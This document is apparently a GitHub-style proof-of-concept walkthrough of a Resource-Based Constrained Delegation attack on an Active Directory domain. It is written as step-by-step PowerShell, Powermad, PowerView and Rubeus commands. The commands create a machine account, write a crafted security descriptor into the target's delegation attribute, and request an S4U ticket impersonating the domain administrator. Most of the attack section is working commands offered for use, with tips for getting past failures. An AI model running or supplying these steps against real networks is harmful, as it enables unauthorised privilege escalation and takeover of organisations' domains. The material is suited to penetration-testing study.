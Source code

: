 **IMPORTANT NOTE:** ALL THIS PROCESS MUST BE PERFORMED FROM A POWERSHELL CONSOLE

(RCBD stands for Resource-Based Constrained Delegation. On RBCD, the msds-allowedtoactonbehalfofotheridentity property controls delegation from the backend service.)

1st In order to perform the attack, we already need a computer configured with RBCD(with the msds-allowedtoactonbehalfofotheridentity writed), or we could abuse an ACL like GenericWrite in order to write the msds-allowedtoactonbehalfofotheridentity property.(in this PoC it the backend machine will be APPSRV01(the contoso\trike user has GenericWrite over APPSRV01), the user that have write perssions will be contoso\trike and the fronted SPN will be contoso\mycomputer$)

2nd Create a new computer machine object that will have an SPN assigned to it; creation of the machine with powermad 

`New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force);`

Checking the SPN for that computer with powerview:

`Get-DomainComputer -Identity myComputer`

3rd We must convert the SID of our newly-created computer object to the correct format in order to proceed with the attack:
	
 1. `$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid`	
 	
 2. `$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"`
	
 3. `$SDbytes = New-Object byte[] ($SD.BinaryLength)`
	
 4. `$SD.GetBinaryForm($SDbytes,0)`
	
 5. `Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}`
	
4th After the SecurityDescriptor has been converted to the correct format, we can use Get-DomainComputer to obtain a handle to the computer object for APPSRV01 and then pipe that into Set-DomainObject , which can update properties by specifying them with -Set options:

VERIFICATION THAT WE SUCCESSFULLY WROTE THE "msds-allowedtoactonbehalfofotheridentity" correctly:
	
 1. `$RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity`
	
 2. `$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0`
	
 3. `$Descriptor.DiscretionaryAcl`   -> this will return us an SID in the SecurityIdentifier field, that we must convert
	
 4. `ConvertFrom-SID sid_number`  -> this must return us with: contoso\myComputer$
	
NOW WE WILL REQUEST A TGS FOR THE SPN: "CIFS/appsrv01.contoso.com" USING RUBEUS AND THE S4USELF AND S4UPROXY(this part is very similar to constrained delegation)
	
 1. `.\Rubeus.exe hash /password:h4x`
	
 2. `.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.contoso.com /ptt`

(the msdsspn parameter can be somewhat tricky, so do you can try various SPNs, for example if CIFS/appsrv01.contoso.com didn't worked, you can try CIFS/appsrv01 or something like that). 
